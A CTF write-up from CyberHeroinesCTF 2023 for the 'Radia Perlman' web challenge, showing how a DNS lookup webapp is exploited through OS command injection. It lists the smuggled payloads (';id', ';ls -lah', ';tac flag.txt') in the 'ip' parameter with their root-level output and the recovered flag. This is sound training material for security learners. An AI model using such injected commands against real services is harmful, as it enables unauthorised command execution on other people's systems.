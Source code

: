 ```yaml
---
title: CyberHeroinesCTF 2023 - Radia Perlman
date: Sun Sep 10 10:28:14 PM +04 2023
categories: [Writeup]
tags: [ctf,cyberheroinesctf,cyberheroinesctf2023,web,command_injection]
---
```


## Radia Joy Perlman

[Radia Joy Perlman](https://en.wikipedia.org/wiki/Radia_Perlman)  (/ˈreɪdiə/;[1] born December 18, 1951) is an American computer programmer and network engineer. She is a major figure in assembling the networks and technology to enable what we now know as the internet. She is most famous for her invention of the spanning-tree protocol (STP), which is fundamental to the operation of network bridges, while working for Digital Equipment Corporation, thus earning her nickname "Mother of the Internet". Her innovations have made a huge impact on how networks self-organize and move data. She also made large contributions to many other areas of network design and standardization: for example, enabling today's link-state routing protocols, to be more robust, scalable, and easy to manage. -  [Wikipedia Entry](https://en.wikipedia.org/wiki/Radia_Perlman)

## Description

Chal: We thought we'd build a  [webapp](https://cyberheroines-web-srv3.chals.io/)  to help the  [Mother of the Internet](https://www.youtube.com/watch?v=5D1v42nw25E)  capture the flag.

Alternate (Better) Link:  [Webapp](http://ec2-3-144-228-78.us-east-2.compute.amazonaws.com:6263/)

Author:  [Rusheel](https://github.com/Rusheelraj)

## Solution

![Radia-Perlman-1](/assets/images/CyberHeroinesCTF/2023/Radia-Perlman-1.png)

Same as [Grace Hopper]({% post_url CyberHeroinesCTF/2023/2023-09-10-Grace-Hopper %}), when we execute dns request we get: 

```
Command Output: Server: 127.0.0.11 
Address: 127.0.0.11#53 
Non-authoritative answer: 
Name: cyberheroines.ctfd.io 
Address: 165.227.251.182 
Name: cyberheroines.ctfd.io 
Address: 165.227.251.183
```

`Command Output` is interesting. What if dns quering isnt implemented by webapp, but is ran as command?

```
Payload: ;id
URL: https://cyberheroines-web-srv3.chals.io/dns?ip=;id
Command Output: uid=0(root) gid=0(root) groups=0(root)
```

```
Payload: ;ls -lah
URL: https://cyberheroines-web-srv3.chals.io/dns?ip=;ls+-lah # Space = "+" or %20 (URLEncoded)

Command Output: 
total 72K
drwxr-xr-x 1 root root 4.0K Aug 27 00:09 .
drwxr-xr-x 1 root root 4.0K Sep  9 12:49 ..
-rw-r--r-- 1 root root 8.1K Aug 27 00:08 .DS_Store
-rw-r--r-- 1 root root 1.4K Aug 25 17:11 code7.js
-rw-r--r-- 1 root root   41 Aug 25 21:38 flag.txt
drwxr-xr-x 1 root root 4.0K Aug 25 17:11 node_modules
-rw-r--r-- 1 root root  25K Aug 25 17:11 package-lock.json
-rw-r--r-- 1 root root  272 Aug 25 17:11 package.json
drwxr-xr-x 2 root root 4.0K Aug 26 23:34 public
drwxr-xr-x 2 root root 4.0K Aug 27 00:31 views
```

`cat flag.txt` didnt work, but `tac flag.txt` worked. [tac](https://man7.org/linux/man-pages/man1/tac.1.html)

```
Payload: ;id
URL: https://cyberheroines-web-srv3.chals.io/dns?ip=;tac+flag.txt; 

Command Output:
chctf{1_l0v3_5p4wn1n6_n0d3_ch1ld_pr0c355}
```

> Flag: chctf{1_l0v3_5p4wn1n6_n0d3_ch1ld_pr0c355}
{: .prompt-tip }